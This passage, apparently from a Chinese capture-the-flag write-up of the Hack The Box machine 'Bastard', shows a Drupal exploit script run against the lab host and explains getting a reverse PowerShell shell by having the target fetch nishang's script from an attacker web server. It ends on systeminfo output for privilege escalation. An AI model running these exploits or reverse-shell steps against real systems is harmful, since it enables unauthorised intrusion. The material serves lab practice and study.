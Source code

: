 这个爆破很久，意义不大

还可以替换 Cookie 得到管理员的权限，在后台寻找能不能命令执行的地方

之前找到了另一个利用脚本 `44449.rb`，也可以成功

```bash
ruby 44449.rb http://10.10.10.9
```

要得到交互性好点的shell，用 `nishang` 的 `Invoke-PowerShellTcp.ps1` 里的，增加 以下内容

<img src=".\图片\Snipaste_2023-08-31_16-31-56.png" alt="Snipaste_2023-08-31_16-31-56" style="zoom:80%;" />

再kali开启web服务，然后靶机访问触发

<img src=".\图片\Snipaste_2023-08-31_16-30-22.png" alt="Snipaste_2023-08-31_16-30-22" style="zoom:80%;" />



# 提权

```bash
C:\Users\dimitris\Desktop>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          30/8/2023, 11:15:53 §?
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.603 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.624 MB
Virtual Memory: In Use:    471 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
```